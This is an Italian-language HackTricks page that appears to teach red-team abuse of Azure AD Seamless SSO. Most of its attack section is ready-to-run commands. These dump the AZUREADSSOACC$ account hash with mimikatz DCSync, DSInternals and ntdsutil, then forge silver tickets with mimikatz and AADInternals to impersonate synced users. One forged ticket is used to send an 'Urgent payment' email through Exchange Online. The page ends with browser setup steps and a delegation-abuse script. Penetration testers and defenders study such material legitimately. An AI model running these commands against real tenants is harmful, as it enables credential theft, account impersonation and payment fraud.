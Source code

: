 # Az - Accesso SSO senza interruzioni

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>

## Informazioni di Base

[Dalla documentazione:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **effettua automaticamente l'accesso degli utenti quando si trovano sui propri dispositivi aziendali** connessi alla rete aziendale. Quando abilitato, **gli utenti non devono digitare le loro password per accedere ad Azure AD**, e di solito, nemmeno il loro nome utente. Questa funzionalità fornisce ai tuoi utenti un facile accesso alle tue applicazioni basate su cloud senza necessità di componenti aggiuntive in locale.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Fondamentalmente Azure AD Seamless SSO **effettua l'accesso degli utenti** quando si trovano **su un PC connesso al dominio in locale**.

È supportato sia da [**PHS (Sincronizzazione dell'Hash della Password)**](phs-password-hash-sync.md) che da [**PTA (Autenticazione di Passaggio)**](pta-pass-through-authentication.md).

Il SSO desktop utilizza **Kerberos** per l'autenticazione. Quando configurato, Azure AD Connect crea un **account computer chiamato AZUREADSSOACC`$`** in AD in locale. La password dell'account `AZUREADSSOACC$` viene **inviata in chiaro ad Azure AD** durante la configurazione.

I **biglietti Kerberos** sono **criptati** utilizzando l'**NTHash (MD4)** della password e Azure AD utilizza la password inviata per decodificare i biglietti.

**Azure AD** espone un **endpoint** (https://autologon.microsoftazuread-sso.com) che accetta **biglietti Kerberos**. Il browser del computer connesso al dominio inoltra i biglietti a questo endpoint per il SSO.

### Da locale a cloud

La **password** dell'utente **`AZUREADSSOACC$` non cambia mai**. Pertanto, un amministratore di dominio potrebbe compromettere l'**hash di questo account**, e quindi usarlo per **creare silver tickets** per connettersi ad Azure con **qualsiasi utente sincronizzato in locale**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Con l'hash ora puoi **generare i biglietti silver**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Per utilizzare il silver ticket, è necessario eseguire i seguenti passaggi:

1. **Inizializzare il Browser:** Mozilla Firefox dovrebbe essere avviato.
2. **Configurare il Browser:**
   * Navigare su **`about:config`**.
   * Impostare la preferenza per [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) ai [valori](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) specificati:
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **Accedere all'Applicazione Web:**
   * Visitare un'applicazione web integrata nel dominio AAD dell'organizzazione. Un esempio comune è [Office 365](https://portal.office.com/).
4. **Processo di Autenticazione:**
   * Alla schermata di accesso, inserire il nome utente, lasciando vuoto il campo della password.
   * Per procedere, premere TAB o INVIO.

{% hint style="success" %}
Questo non aggira l'MFA se abilitato.
{% endhint %}

#### ~~Creazione di ticket Kerberos per utenti solo cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se gli amministratori di Active Directory hanno accesso ad Azure AD Connect, possono **impostare SID per qualsiasi utente solo cloud**. In questo modo i **ticket Kerberos** possono essere **creati anche per gli utenti solo cloud**. L'unico requisito è che il SID sia un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) corretto.

{% hint style="danger" %}
La modifica del SID degli utenti amministratori solo cloud è ora **bloccata da Microsoft**.\
Per informazioni controllare [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud tramite Delega Limitata Basata su Risorse <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Chiunque possa gestire gli account computer (`AZUREADSSOACC$`) nel contenitore o nell'OU in cui si trova questo account, può **configurare una delega limitata basata su risorse sull'account e accedervi**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Sono nel tuo cloud, leggo le email di tutti - hacking di Azure AD tramite Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
